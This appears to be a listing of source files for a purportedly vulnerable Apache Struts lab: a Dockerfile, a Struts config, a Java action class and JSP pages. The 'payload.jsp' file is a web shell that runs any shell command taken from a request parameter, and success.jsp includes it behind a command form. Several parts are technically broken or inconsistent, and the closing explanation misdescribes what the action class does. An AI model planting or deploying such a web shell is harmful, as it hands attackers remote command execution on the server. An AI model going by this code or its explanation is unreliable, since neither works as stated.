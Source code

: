 1. Dockerfile for the vulnerable Apache Struts application (`Dockerfile`):

```
FROM openjdk:8-jdk-alpine

# Install Apache Struts
RUN apk add --no-cache struts2

# Copy the web application
COPY webapp /opt/struts2-app

# Expose the HTTP port
EXPOSE 80

# Run the application
CMD ["java", "-jar", "/opt/struts2-app/struts2-core-2.5.14.3.jar", "-Dstruts.webapp=/"]
```

2. The vulnerable web application (`webapp/WEB-INF/struts.xml`):

```xml
<struts>
    <action name="dispatcher" class="com.example.DispatcherAction">
        <result name="success">/success.jsp</result>
    </action>
</struts>
```

3. The vulnerable DispatcherAction class (`webapp/src/main/java/com/example/DispatcherAction.java`):

```java
package com.example;

import com.opensymphony.xwork2.ActionSupport;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;

public class DispatcherAction extends ActionSupport {
    private String command;

    public String execute() throws Exception {
        if (command == null) {
            return "input";
        }
        PrintWriter writer = response.getWriter();
        writer.print(command);
        return "success";
    }

    public String getCommand() {
        return command;
    }

    public void setCommand(String command) {
        this.command = command;
    }

    private HttpServletResponse response;

    public void setResponse(HttpServletResponse response) {
        this.response = response;
    }
}
```

4. The exploit payload (`payload.jsp`):

```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    Process p = Runtime.getRuntime().exec(cmd);
    PrintWriter writer = response.getWriter();
    writer.println("Shell Access: " + new BufferedReader(new InputStreamReader(p.getInputStream())).lines().collect(Collectors.joining("\n")));
%>
```

5. The success.jsp page (`webapp/success.jsp`):

```jsp
<html>
<head>
    <title>Success</title>
</head>
<body>
    <h1>Success</h1>
    <form action="dispatcher.action">
        <input type="text" name="cmd" />
        <input type="submit" value="Execute Command" />
    </form>
    <%@ include file="payload.jsp" %>
</body>
</html>
```

This setup includes a vulnerable Apache Struts application that can be exploited to execute arbitrary commands. The exploit payload is included in a JSP file, and the user can execute commands by submitting a form. The vulnerable DispatcherAction class is responsible for executing the command and returning the result. The Dockerfile sets up the environment and runs the application.